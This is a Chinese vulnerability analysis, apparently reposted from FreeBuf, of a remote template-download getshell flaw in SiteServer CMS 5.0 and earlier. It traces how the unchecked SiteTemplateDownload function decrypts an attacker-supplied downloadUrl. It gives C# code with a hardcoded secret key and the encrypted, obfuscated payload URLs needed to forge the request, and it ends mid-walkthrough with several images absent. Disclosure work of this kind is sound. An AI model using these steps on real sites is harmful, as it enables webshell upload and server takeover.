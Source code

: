 # SiteServerCMS-Getshell-
SiteServerCMS 5.0远程模板下载Getshell漏洞

Author:1u0hun

From:https://www.freebuf.com/articles/web/195105.html

0x00 漏洞概述

通过了解，得知被攻击的网站使用的是siteserver cms，为开源免费cms框架，[官网](https://www.siteserver.cn/)
捕获到的“0 day”是通过远程模板下载getshell，漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀


0x01 漏洞分析

可以看到利用的是ajaxOtherService.cs中的SiteTemplateDownload功能模块，使用notepad++搜索到该功能模块如下。发现在ajaxOtherService.cs文件中确实存在函数调用接口SiteTemplateDownload(stringdownloadUrl, string directoryName, string userKeyPrefix)image.png


其中downloadUrl就是远程文件的URL地址，directoryName是下载到本地之后命名的模板目录，userKeyPrefix是加密的密钥，继续审核此文件，整理出整个函数调用流程如下，首先在AjaxOtherService.cs文件中使用Page_Load函数负责加载整个页面，然后通过request[‘type’]获取到不同的操作类型，如果获取到的type为TypeSiteTemplateDownload ，就会执行其request参数值的相关功能，其中最重要的一步操作就是此时先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。 image.png


在AjaxOtherService类中通过常量中已经定义了TypeSiteTemplateDownload = “SiteTemplateDownload”;image.png


因此当type等于SiteTemplateDownload时就会调用SiteTemplateDownload函数，逻辑非常的清楚，接下来分析downloadurl到底是怎么解密的，这也是本次审计的重点，毕竟其他逻辑非常清楚了，通过调用TranslateUtils.DecryptStringBySecretKey函数进行解密，通常开发习惯就是类名与文件名基本保持一致，因此很容易找到该文件image.png
<br>
通过分析源代码可知，这里将DecryptStringBySecretKey函数进行重载，在调用DecryptStringBySecretKey(string inputString)时候，实际上调用的是下面带secretKey的同名函数DecryptStringBySecretKey(stringinputString, string secretKey)，分析该函数其中secretKey是取自WebConfigUtils.SecretKey的值，通过审计WebConfigUtils.cs文件可知，该值是从配置文档web.config中取得对应字段值。SecretKey的值可以在web.config文件中找到。
<br>
image.png

解密函数DecryptStringBySecretKey(string inputString, string secretKey)中secretKey的参数值同样为WebConfigUtils.SecretKey的值,继续分析该函数，可以看到先进行了混淆字符，将字符“+=&?’/”替换成DES加密后的密文。image.png

这里使用python脚本去除混淆，恢复原DES密文。image.png

程序去除混淆之后调用DES模块并实例化encryptor对象调用DesDecrypt解密函数，在实例化对象时将inputString和secreKey传入。使用
[菜鸟教程](http://www.runoob.com/)

调试运行下核心的加解密代码传入参数_encryptKey和_inputString加密代码调试如下_inputString传入任意黑客构造的地址，_encryptKey传入密钥。


```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "http://127.0.0.1:99/txt2.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

f1.png
执行之后获取其加密downloadurl如下：
> ZjYIub/YxA3QempkVBK4CoiVo3M607H/TBf7F0aPcUE=

使用python代码混淆该url，得到最后利用的downloadurlf2.png


混淆之后的downloadurl为：

> ZjYIub0slash0YxA3QempkVBK4CoiVo3M607H0slash0TBf7F0aPcUE0equals00secret0

解密的步骤与加密相反，首先将混淆后的下载地址去除混淆。去混淆py代码去混淆后密文如下：

> ZjYIub/YxA2nYLIZNDeUmdd3GBhwbuBXI4s2bpH2CVmtg2H/QGZ4+ZW0iiVbi/MDytVnpZKliDw=

解密函数调试如下，传入_inputString和密钥 
f3.png





